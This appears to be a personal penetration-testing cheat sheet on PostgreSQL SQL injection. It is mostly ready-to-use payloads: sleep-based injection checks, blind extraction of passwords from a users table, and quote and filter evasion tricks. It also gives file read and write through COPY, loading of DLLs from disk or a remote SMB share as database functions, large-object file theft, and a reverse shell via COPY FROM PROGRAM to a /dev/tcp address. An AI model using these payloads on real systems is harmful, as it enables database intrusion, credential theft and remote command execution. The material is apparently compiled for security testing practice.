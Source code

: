 ## PostgreSQL
> Note Stacked Queries may break application logic during SQLi;
> In PostgreSQL a semicolon can delimeter command and thus can execute totally new commands in SQLi

 ### Executing Queries against PostgreSQL DB
 #### Using pgAdmin GUI tool
To directly execute SQL Queries directly against the database, Use the `pgAdmin` tool. This is a front end for PostgreSQL
#### From Cmd
```batch
psql.exe -U postgres -p 15432
```

#### From Bash
```bash
sudo -i -u postgres
psql answers
```

### Execute System commands
```SQL
DROP TABLE IF EXISTS output;

create table output (line text);

copy output from program 'bash -c "bash -i >& /dev/tcp/10.10.10.14/9001 0>&1"';
```

### Examine Table
```sql
\d pg_largeobject
```

### Confirm SQLi Injection
```sql
;select pg_sleep(10);
```

### Blind SQLi 
```sql
# Boolean statment, where %s is ur nested query
2 LIMIT (CASE WHEN (%s) THEN 1 ELSE 2 END)

# Where first %d is charchter index in string and second %d is guess value
ASCII(SUBSTR((SELECT password FROM users WHERE user_id=1),%d,1))<%d
ASCII(SUBSTR((SELECT password FROM users WHERE user_id=1),%d,1))>%d
```

### Filter Evasion
#### base64
```sql
# From base64
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
```

#### Charchter Code point
```sql
# Charchter Code point
# Character concatenation only works for basic queries such as SELECT,  INSERT, DELETE, etc. It does not work for all SQL statements.
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);

CREATE TABLE EXAMPLETABLE (sometext text); INSERT INTO EXAMPLETABLE(sometext) VALUES (CHR(87)||CHR(66)||CHR(97)||CHR(86));
SELECT * from EXAMPLETABLE;
```

#### Avoiding Quotes
Essentially, two dollar characters (`$$`) can be used as a quote (`'`) substitute by themselves, or a single one (`$`) can indicate the beginning of a “tag.” The tag is optional, can contain zero or more characters, and is terminated with a matching dollar (`$`). If used, this tag is then required at the end of the string as well.

```sql
SELECT 'SomeText';
SELECT $$SomeText$$;
SELECT $TAG$SomeText$TAG$;
```

### Write & Read file to/from Disk
```sql
CREATE TEMP TABLE PayloadTable(payload text);INSERT INTO PayloadTable(payload) VALUES ($$WowThisWorks$$);

COPY PayloadTable(payload) TO $$C:\Users\Public\Desktop\thisworks.txt$$

# Writing to file using tables
COPY <table_name> from <file_name>

# Writing to file using nested select query
COPY (select $$payloaddata$$) to <file_name>

# Reading from file 
COPY <table_name> to <file_name>

# Read from file, Full example
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;SELECT content from readdatatable;DROP table readdatatable;

# Blind Injection, Read from file
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;select case when(ascii(substr((select content from readdatatable),1,1))=87) then pg_sleep(10) end;--;DROP table readdatatable;
```

### Check If running as DBA
```sql
SELECT current_setting('is_superuser');
```
![[Pasted image 20210908125508.png]]

### Extensions
#### Load PostgreSQL Extension
```sql
create or replace function system(cstring) returns int as 'c:\windows\system32\kernel32.dll','WinExec' language c strict;
 
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$test$$ LANGUAGE C STRICT; 

# supports the use of remote smb shares
create or replace function test(text, integer) returns void as $$\\192.168.1.1\smb\test.dll$$,$$test$$ LANGUAGE C STRICT; 
```

Need to make sure the appropriate Postgres structure is defined. Otherwise, this error will show up
![[Pasted image 20210908171828.png]]

#### Check if function exists
```sql
\df test
```

#### Run function from Extension
```sql
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$myfunctioninDLL$$ LANGUAGE C STRICT;
```

> Note that any newly launched calc.exe instance will be running as a service in the background and won't show it's gui if the postgresql is running as `System`

#### Unload extension
```batch
# 1. Stop the Service
net stop "Applications Manager"

# 2. Delete the DLL
del c:\test.dll

# 3. Start the service
net start "Applications Manager"
```

```sql
# 4. Drop the function
DROP FUNCTION test(text, integer);
```

### Postgresql Large Object
Large objects can be exported back to the file system as an identical copy of the original imported file. 

#### Create Large Object
```sql
select lo_import('c:\\windows\win.ini')

# Set loid field when importing
select lo_import('C:\\Windows\\win.ini', 1337);
```

#### List Large Objects
```sql
\lo_list

select loid, pageno from pg_largeobject;
```

#### View Data in Large Object
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Update Large Object - Write to large object directly
```sql
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0; 
```

#### Export large object to disk
```sql
select lo_export(1337, 'C:\\new_win.ini');
```

#### Delete large object
```sql
\lo_unlink 1337
```


### References
[Command Execution in psql 9.3 < Latest ](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)